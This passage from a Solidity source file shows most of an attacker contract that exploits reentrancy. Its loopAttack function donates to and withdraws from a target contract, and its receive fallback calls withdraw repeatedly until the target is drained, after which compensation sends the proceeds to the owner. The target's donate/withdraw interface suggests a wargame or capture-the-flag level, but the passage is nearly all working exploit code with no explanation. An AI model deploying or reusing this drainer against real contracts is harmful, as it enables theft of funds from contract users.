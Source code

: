 ```solidity
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function loopAttack() public payable {
        require(msg.value >= targetValue);
        //donate
        targetContract.donate{value:msg.value}(address(this));
        //withdraw
        targetContract.withdraw(msg.value);
        // hit receive and repeat
    }

    function compensation() public {
        require(msg.sender == owner);
        uint totalBalance = address(this).balance;
        payable(msg.sender).transfer(totalBalance);
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

<br/>
<p align="center">